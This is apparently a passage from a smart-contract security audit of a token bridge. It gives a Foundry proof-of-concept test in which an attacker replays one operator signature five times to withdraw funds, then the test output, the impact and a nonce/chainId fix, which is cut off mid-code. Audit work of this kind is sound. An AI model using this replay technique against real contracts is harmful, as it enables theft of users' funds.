 #### Test Case

```solidity
function testReplayAttack() public {
    // user deposit to L2 10 ether
    vm.startPrank(user);
    token.approve(address(tokenBridge), 10 ether);
    tokenBridge.depositTokensToL2(user, userInL2, 10 ether);
    vm.stopPrank();

    // The operator sign the withdraw action
    address attacker = makeAddr("attacker");
    bytes memory message = _getTokenWithdrawalMessage(attacker, 1 ether);
    (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

    // attacker replay the withdraw actions
    vm.startPrank(attacker);
    tokenBridge.withdrawTokensToL1(attacker, 1 ether, v, r, s);
    tokenBridge.withdrawTokensToL1(attacker, 1 ether, v, r, s);
    tokenBridge.withdrawTokensToL1(attacker, 1 ether, v, r, s);
    tokenBridge.withdrawTokensToL1(attacker, 1 ether, v, r, s);
    tokenBridge.withdrawTokensToL1(attacker, 1 ether, v, r, s);
    vm.stopPrank();

    assertEq(token.balanceOf(attacker), 5 ether);
    assertEq(token.balanceOf(address(vault)), 5 ether);
}
```

#### Output

```bash
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 17.99ms (3.91ms CPU time)

Ran 1 test suite in 32.14ms (17.99ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```



### Impact

This vulnerability can lead to the loss of funds.



### Recommendation

Introduce a nonce parameter in the function signature and maintain a nonce registry for each signer. Ensure that the provided nonce is greater than the previously used nonce for the same signer.

Also, to prevent the same signature from being used between ` L1 ` and ` L2 `, it is recommended to add the ` chainId ` parameter within the signature.

```solidity
mapping(address signer => uint256 nonce) public sign_nonce;

// function withdrawTokensToL1(address to, uint256 amount, uint8 v, bytes32 r, bytes32 s) external {
function withdrawTokensToL1(address to, uint256 amount, uint8 v, bytes32 r, bytes32 s) external nonReentrant whenNotPaused {
    // add
    sign_nonce[to]++;
    sendToL1(
        v,
        r,
        s,
        abi.encode(
            address(token),
```